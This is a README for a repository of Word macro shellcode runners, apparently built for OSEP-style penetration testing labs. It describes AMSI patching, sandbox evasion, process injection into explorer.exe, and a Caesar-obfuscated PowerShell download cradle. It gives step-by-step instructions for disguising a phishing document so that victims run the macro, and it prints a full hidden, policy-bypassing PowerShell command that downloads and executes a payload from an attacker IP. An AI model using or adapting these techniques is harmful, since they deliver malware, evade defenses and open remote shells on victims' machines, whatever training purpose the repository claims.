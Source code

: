 # Macro Shellcode Runners

## ToC

| Application | Notes |
| ----------- | ----- |
| `WordMacroRunner.vbs` | Baseline runner that will return a shell from WINWORD.exe, bypass AMSI, & run on both 64-bit and 32-bit |
| `WordMacroRunnerBasic.vbs` | Basic shellcode runner. `WordMacroRunner.vbs` without AMSI bypass or IP check |
| `WordMacroInject.vbs` | Inject into `explorer.exe` (*only good for 64-bit word*) | 
| `WordPsCradle.vbs` | Macro with Caesar Cipher encoding that calls a PS download cradle |
| `vbObfuscate.ps1` | PS script to generate Caesar Cipher code for `WordPsCradle.vbs` |


### Setup/formatting information:
1. Write "legitimate" contents of the word doc, select all, then navigate to Insert > Quick Parts > AutoTexts and Save Selection to AutoText Gallery
2. Give it a name, make sure it's saved to that particular document and not a template. Hit ok. Then delete the content from the body of the word doc.
3. Copy in/write your pretexting content to the body of the word doc.  This is the piece that include "enable macros, hit this key combo to execute" etc.
4. Go to Macro's and click record new macro.  Ensure on both screens you select the current document and not a template.  Click keyboard and then hit a key combination to map (e.g. Alt + D).  Once you hit ok/close, recording will begin.  Then go click macros again, view, select the main runner sub, and then click run.  This will map that sequence to Alt + D so that when it is entered the runner sub will be executed.

## `WordMacroRunner.vbs`
This is a baseline runner that will return a shell from WINWORD.exe. Has capabilities to detect AMSI and patch it if found (for both 32-bit and 64 bit) as well as contains shellcode for both 32-bit and 64 bit Word so it can execute after detecting architecture. 

The only apparent obfuscation on the shellcode itself is that its written in an integer array, no encoding/encrypting. Uses sleep calls to determine if being simulated by AV. Also has functionality to make sure the target is in the `192.168.0.0/16` IP range, except you have to uncomment it.

## `WordMacroRunnerBasic.vbs`
This is just a basic version of `WordMacroRunner.vbs` without AMSI Bypass or IP Check.

## `WordPsCradle.vbs`
Macro with Caesar Cipher encoding that calls a PowerShell download cradle.  Use with `vbObfuscate.ps1` to generate and replace obfuscated text in `WordPsCradle.vbs`. This uses WMI dechaining, so **still use x64 shellcode even if you are targeting x86 word**!

## `vbObfuscate.ps1`
Powershell script to generate Caesar Cipher code for `WordPsCradle.vbs`.  Make sure offsets match for encrypt/decrypt. First output is download cradle, last is app name for app name check before running. 

**This is where you would edit the PS Cradle you would like to run**. The default is:
```ps1
powershell -exec bypass -nop -w hidden -c iex(new-object net.webclient).downloadstring('http://192.168.49.66/attach.txt')
```

## `WordMacroInject.vbs`
This macro performs process injection from both 32-bit and 64-bit Word processes. In 64-bit processes, it injects into `explorer.exe`, but this is easily configurable with a single variable.

In 32-bit processes, it enumerates running processes and attempts to find another 32-bit process to inject into. These are pretty sparse, but often times processes like `GoogleUpdate.exe`, `OneDrive.exe` are running as 32-bit (at least in the OSEP labs). If it can't find another 32-bit process, it injects into itself (`WINWORD.exe`).

Uses a `sleep` call to determine if being simulated by AV. The shellcode is not obfuscated at all, that is left up to the reader. Much more can be done to obfuscate the entire script but if I did that here it would be hard to even understand the script, which would defeat its educational purpose.

### Notes

If Word (and thus our Macro) is ran in 32-bit mode, we have to find another 32-bit process to inject into because 32 bit processes cannot easily inject into 64 bit ones. The presumed typical target environment will be running 32 bit word on a 64 bit OS, which renders the injection into explorer impossible.

Starting in Word 2019 the program is 64 bit by default. This means Word 2019,O365,2021 are all good candidates for Injection because Orgs/individuals would have to go out of their way to have downloaded the 32 bit one.

There are some more advanced techniques out there that might be able to facilitate 32&rarr;64 bit injection (*Heaven's gate*) but no idea if they could be implemented in VBA.

As always, there are issues concerning stability, and longevity of the process to maintain a reverse shell when we inject into random processes. In reality just using a non-injecting runner and then setting up a C2 to automigrate is probably best practice as they are equipped to do so.
